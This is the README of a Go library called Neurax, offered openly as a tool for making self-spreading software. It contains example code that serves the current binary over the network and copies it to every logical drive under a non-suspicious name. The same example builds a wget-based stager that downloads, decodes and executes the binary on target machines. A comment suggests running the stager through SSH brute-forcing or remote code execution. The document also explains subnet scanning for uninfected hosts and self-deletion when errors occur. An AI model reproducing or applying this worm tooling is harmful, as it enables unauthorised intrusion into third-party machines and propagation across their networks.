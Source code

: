 <h1 align="center"> Neurax </h1> <br>

<p align="center">
  <a>
    <img alt="Neurax" title="Neurax" src="neurax.png">
  </a>
</p>

<p align="center"> A library that aids in creation of self-spreading software</p>

## Requirements
`go get -u github.com/redcode-labs/Coldfire`
`go get -u github.com/yelinaung/go-haikunator`

## Usage
With help of Neurax, Golang binaries can spread on local network without using any external servers.

Diverse config options and command stagers allow rapid propagation across various wireless environments.
### Example code

```go
package main
import "github.com/redcode-labs/Neurax"

func main(){

  //Specify serving port and stager to use
  NeuraxConfig.port = 5555
  NeuraxConfig.stager = "wget"

  //Start a server that exposes the current binary in the background
  go NeuraxServer()
 
  //Copy current binary to all logical drives
  NeuraxDisks()

  //Create a command stager that should be launched on target machine
  //It will download, decode and execute the binary
  cmd_stager := NeuraxStager()

  /* Now you have to somehow execute the command generated above.
     You can use SSH bruteforce, some RCE or whatever else you want ;> */

}
```

### List of config entries

<span style="color:#b45e02">Name</span> | <span style="color:#5f1e2d">Description</span> | <span style="color:#aa5502">Default value</span>
--- | --- | ---
NeuraxConfig.stager           | Name of the command stager to use | random, platform-compatible
NeuraxConfig.port             | Port to serve on | random from 2222 to 9999
NeuraxConfig.platform         | Platform to target | detected automatically
NeuraxConfig.path             | The path under which binary is saved on the host | random
NeuraxConfig.file_name        | Name under which downloaded binary should be served and then saved | random
NeuraxConfig.base64           | Encode the transferred binary in base64 | false
NeuraxConfig.comm_port        | Port that is used by binaries to communicate with each other | random
NeuraxConfig.required_port    | NeuraxScan() treats host as active only when it has a specific port opened|none
NeuraxConfig.scan_passive     | NeuraxScan() detects hosts using passive ARP traffic monitoring | false
NeuraxConfig.scan_timeout     | NeuraxScan() sets this value as timeout for scanned port in each thread | 2 seconds
NeuraxConfig.read_arp_cache   | NeuraxScan() scans first the hosts found in local ARP cache. Works only with active scan | false
NeuraxConfig.cidr             | NeuraxScan() scans this CIDR | local IP + "\24"
NeuraxConfig.threads          | Number of threads to use for NeuraxScan() | 10
NeuraxConfig.full_range       | NeuraxScan() scans all ports of target host to determine if it is active | from 19 to 300
NeuraxConfig.scan_interval    | Time interval to sleep before scanning whole subnet again | 2 minutes
NeuraxConfig.verbose          | If true, all error messages are printed to STDOUT | false
NeuraxConfig.remove           | When any errors occur, binary removes itself from the host | false

### Finding new targets
Function `NeuraxScan(c chan string)` enables detection of active hosts on local network.
It accepts a channel of type string as it's only argument and should be launched as a goroutine.
Any scanned host will be sent through that channel as soon as it was classified as active.
Host is treated as active when it has at least 1 open port, is not already infected + fullfils conditions specified within `NeuraxConfig`.

`NeuraxScan()` runs as infinite loop - it scans whole subnet specified by `.cidr` config entry and when every host is scanned, function sleeps for an interval given in `.scan_interval`.

### Disks infection
  Neurax binary doesn't have to copy itself using wireless means.
  Function `NeuraxDisks()` copies current binary (under non-suspicious name) to all logical drives that were found.
  Copied binary is not executed, but simply resides in it's destination waiting to be run.
  `NeuraxDisks()` returns an `error` if list of disks cannot be obtained or copying to any destination was impossible.

## Artwork credits

====> [Seto01](https://www.deviantart.com/seto01/art/New-disease-parasite-438032692) <====

## License
This software is under [MIT license](https://en.wikipedia.org/wiki/MIT_License)